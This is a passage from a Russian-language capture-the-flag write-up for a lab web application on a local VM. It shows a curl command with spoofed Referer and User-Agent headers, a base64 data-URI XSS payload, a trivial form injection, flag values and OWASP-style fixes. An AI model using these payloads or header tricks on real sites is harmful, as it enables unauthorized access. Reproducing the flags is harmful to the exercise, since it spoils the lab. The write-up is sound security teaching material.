Сэмулируем визит на эту страницу с сайта "https://www.nsa.gov/". Для этого, в качестве полученной подсказки, используем "User-Agent: ft_bornToSec". Выполнить в терминале:

```
curl 'http://192.168.56.3/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' -H 'User-Agent: ft_bornToSec' -H 'Referer: https://www.nsa.gov/' | grep 'images/win.png'
```

<img width="1203" alt="Screen Shot 2022-11-14 at 08 37 01" src="https://user-images.githubusercontent.com/84193980/201585965-b463e096-b91d-44e5-a5b4-2b2980ca097d.png">

</details>

The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

### Как исправить:
- Проверьте, имеет ли ваш фреймворк встроенную защиту от CSRF , и используйте ее. Если фреймворк не имеет встроенной защиты от CSRF, добавьте токены CSRF во все запросы на изменение состояния (запросы, вызывающие действия на сайте) и проверьте их на бэкенде.
- Для программного обеспечения с отслеживанием состояния используйте шаблон токена синхронизатора.
- Для программного обеспечения без сохранения состояния используйте двойные файлы cookie.
- Реализуйте хотя бы одно средство защиты из раздела «Устранение последствий глубокоэшелонированной защиты».
	- Рассмотрите возможность использования атрибута файла cookie SameSite для сеансовых файлов cookie , но будьте осторожны и НЕ устанавливайте файл cookie специально для домена, поскольку это приведет к уязвимости системы безопасности, поскольку все поддомены этого домена совместно используют файл cookie. Это особенно проблема, когда субдомен имеет CNAME для доменов, не находящихся под вашим контролем.
	- Рассмотрите возможность реализации защиты на основе взаимодействия с пользователем для высокочувствительных операций.
	- Рассмотрите возможность использования настраиваемых заголовков запросов.
	- Рассмотрите возможность проверки происхождения с помощью стандартных заголовков
- Помните, что любой межсайтовый скриптинг (XSS) может быть использован для преодоления всех методов смягчения CSRF! (См. Памятку OWASP  по предотвращению XSS  для получения подробных инструкций о том, как предотвратить недостатки XSS.)
- Не используйте запросы GET для операций изменения состояния. Если по какой-либо причине вы это сделаете, защитите эти ресурсы от CSRF.

----

</details>

<details><summary>13. Межсайтовые сценарии</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=media&src=nsa |
|-|-|

[Cross Site Scripting](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

<details><summary>Что такое `Межсайтовые сценарии` и как обнаружено</summary>

Межсайтовый скриптинг (XSS) — это неправильное название. Название произошло от ранних версий атаки, в которых основное внимание уделялось краже межсайтовых данных. С тех пор он расширился и теперь включает внедрение практически любого контента, но мы по-прежнему называем это XSS. XSS — это серьезно и может привести к олицетворению учетной записи, наблюдению за поведением пользователя, загрузке внешнего контента, краже конфиденциальных данных и многому другому.

Пользователь может выполнить вредоносный код на клиентской машине.

Вредоносный скрипт может получить доступ к любым файлам cookie, маркерам сеанса или другой конфиденциальной информации, сохраняемой браузером и используемой на этом сайте.

## Как обнаружено ##

Проинспектируем указанную страницу. Мы видим, что картинка вставлена непосредственно в поле данных тега объекта:
	
<img width="1499" alt="Screen Shot 2022-11-14 at 09 48 15" src="https://user-images.githubusercontent.com/84193980/201598378-f9351e58-2d15-4fcb-8897-8951e3c35bb0.png">

Внедрение html обычно не работает, потому что кавычки обрабатываются правильно. Однако вы можете внедрить сериализованный html (сериализация преобразует объект в поток байтов).

[Зашифруем base64 строчку](https://decodeit.ru/base64/)
```
<script>alert
```

Получаем: PHNjcmlwdD5hbGVydA==

Заменим в оригинальном адресе источник на нашу зашифрованную строчку:
```
http://192.168.56.3/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydA==
```
	
<img width="829" alt="Screen Shot 2022-11-14 at 10 01 31" src="https://user-images.githubusercontent.com/84193980/201598332-13e15251-a8f7-4962-8cea-866991da22c5.png">

**Это работает, потому что ответ на запрос принимает text/html**

</details>

THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D

### Как исправить:
- Чтобы атаки XSS были успешными, злоумышленнику необходимо вставить и выполнить вредоносный контент на веб-странице. Каждая переменная в веб-приложении должна быть защищена. Гарантия того, что все переменные проходят проверку, а затем экранируются или дезинфицируются, называется идеальной устойчивостью к инъекциям. Любая переменная, которая не проходит через этот процесс, является потенциальной слабостью. 

----

</details>

<details><summary>14. </summary>

| Найдено на странице | http://192.168.56.3/index.php?page=feedback |
|-|-|

<details><summary>Что такое `` и как обнаружено</summary>

Отсутствие проверки может привести к тому, что злоумышленник напишет произвольный код, который будет выполняться, когда кто-либо заполнит форму.

## Как обнаружено ##

В Chrome нажмите правой кнопкой мыши на поле ввода имени -> Inspect

<img width="644" alt="Screen Shot 2022-11-14 at 13 24 16" src="https://user-images.githubusercontent.com/84193980/201645115-09185351-1b04-4d8f-85f2-633121d65225.png">

Для получения флага просто напишите "script" в поле Name

<img width="823" alt="Screen Shot 2022-11-14 at 13 14 24" src="https://user-images.githubusercontent.com/84193980/201645092-28fec800-26ac-46be-8d8a-8ec9c4796bd9.png">

</details>

THE FLAG IS : 0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E

### Как исправить:
- Включите функцию, которая обрабатывает крайние случаи при вводе текста.
- Большинство современных фреймворков изначально обрабатывают такие уязвимости (например, React, Vue, Angular Symfony).

----

</details>


| [README](README.md) | [subject](sublect_ru.md) | [How to start a web server](howTo.md) | defense |
|-|-|-|-|
